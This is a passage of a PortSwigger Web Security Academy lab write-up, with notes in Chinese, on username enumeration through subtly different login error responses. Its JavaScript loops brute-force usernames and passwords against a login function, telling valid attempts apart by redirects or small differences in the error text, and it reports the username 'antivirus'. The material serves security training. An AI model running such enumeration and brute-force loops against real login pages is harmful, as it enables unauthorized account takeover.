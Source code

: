 main function

```js
async function main() {
  for (const username of usernames) {
    for (const password of passwords) {
      const response = await login(username, password);
      // custom logic here
      const isCorrect = response.redirected;
      if (isCorrect) return;
      const text = await response.text();
      const isInvalidUsername = text.includes("Invalid username");
      if (isInvalidUsername) break;
    }
  }
}
```

## Lab: Username enumeration via subtly different responses

| Dimension | Description                                                                                                                |
| --------- | -------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/password-based#username-enumeration                                    |
| Lab       | https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses |

先找出正確的 username

```js
async function main() {
  for (const username of usernames) {
    for (const password of passwords.slice(0, 1)) {
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const isInvalid = text.includes("Invalid username or password.");
      if (!isInvalid) {
        console.log(username);
        return;
      }
    }
  }
}
```

得出 `antivirus` 之後，開始爆破密碼

```js
async function main() {
  for (const username of ["antivirus"]) {
    for (const password of passwords) {
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const isInvalid = text.includes("Invalid username or password ");
      if (!isInvalid) {
        console.log(username, password);
        return;
      }
    }
  }
}
```
